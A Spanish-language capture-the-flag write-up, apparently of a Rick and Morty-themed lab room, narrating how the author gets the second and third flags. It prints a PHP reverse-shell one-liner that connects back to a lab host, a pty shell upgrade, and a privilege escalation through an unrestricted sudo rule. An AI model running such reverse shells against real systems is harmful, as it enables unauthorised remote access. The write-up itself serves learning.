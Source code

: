 Hice una reverse shell con php (`php -r '$sock=fsockopen("10.10.176.88",8080);exec("sh <&3 >&3 2>&3");'`) y obtuve mi terminal, hice un `ls` y vi que el primer resultado es una de las flags, por lo que me dispongo a leerla y ya tendríamos la primera flag, ahora vamos a por la segunda.

### Flag 2
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-64-61:/var/www/html$
```
Antes de continuar quiero upgradear mi shell ya que la que tengo es bastante ineficiente.

```shell
www-data@ip-10-10-64-61:/home/rick$ cat 'second ingredients'
cat 'second ingredients'
1 jerry tear
```

Después me puse a navegar por los archivos y vi que hay un home de `rick`, por lo que vi lo que había dentro y  encontré la segunda flag, ahora vamos a ver si podemos ser root o que más podemos averiguar.
## 4. Post‑explotación (si aplica)
### Flag 3
```shell
root@ip-10-10-94-226:~# ls
3rd.txt  snap
root@ip-10-10-94-226:~# cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-94-226:~# pwd
/root
www-data@ip-10-10-94-226:/$ sudo -l
Matching Defaults entries for www-data on ip-10-10-94-226:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-94-226:
    (ALL) NOPASSWD: ALL
```

Y como era de esperar teniendo todos los permisos y encima sin pedir contraseña solo teníamos que hacer un sudo su para elevar privilegios y obtener root y entrar dentro de la carpeta `root` para encontrarnos el último ingrediente. 

## 6. Notas y aprendizajes

- Punto fuerte: Esta sala me ha enseñado a siempre mirar el código fuente y empezar a pensar realmente como un hacker
    
- Dificultad encontrada: Ninguna
    
- Conceptos nuevos aprendidos: Siempre mirar las cosas dos veces incluso con herramientas diferentes ya que puedes encontrar cosas que antes no habías visto
